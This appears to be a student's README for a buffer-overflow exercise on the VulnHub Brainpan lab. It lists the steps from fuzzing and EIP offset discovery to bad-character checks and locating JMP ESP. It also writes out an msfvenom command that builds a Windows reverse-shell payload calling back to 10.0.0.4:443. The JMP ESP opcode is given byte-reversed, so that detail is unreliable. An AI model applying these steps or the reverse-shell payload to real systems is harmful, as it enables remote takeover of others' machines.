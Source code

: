 #bufferOverflow
This is my first BufferOverflow exerise - VulnHub Brainpan
Tool: Immunity Debugger

Step 1 - Find the EIP 
  using fuzzing to locate the buffer overflow point - the EIP address
  Create an array of buffers, from 1 to 5900, with increments of 100. Send the buffer to the 
  target until received system crash  and checked the size of buffers that made the system crash

  Program: 1-fuzzer_eip.py
  
Step 2 Control the EIP address 
 
  2.1 by binary tree analysis

  2.2 using metasploit
  Generate a pattern of string and send to the system. check the EIP 
    locate the pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 9999 -q 39694438
  Program: 2-controlling-eip.py
  
   
Step 3 Locating Space and prepare the shellCode
  Finding the ESP addess 
  buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
  Program: 2-controlling-eip.py

Step 4 Check Bad Characters
  Send \x01...\xff to the system and check which char(s) have been truncated
  Program: 3-controlling-eip.py

Step 5 check any memory protections such as DEP adn ASLR
  Immunity Debugger Command: !mona modules

Step 6 Locate the JMP ESP
  /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
  JMP ESP address => \xe4\xff
  Immunity Debugger Command: !mona find -s "\xe4\xff" -m <program name>
  
Step 7 Generating ShellCode using Metasploit
  Metasploit Command: msfvenom -l payloads
  Metasploit Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  -f format
  -e encode
  -b exclude character 
 
 Step 8 Sending the ShellCode 
  Program: 4-expolit-lin.py
  Program: 4-expolit-win.py
 
  
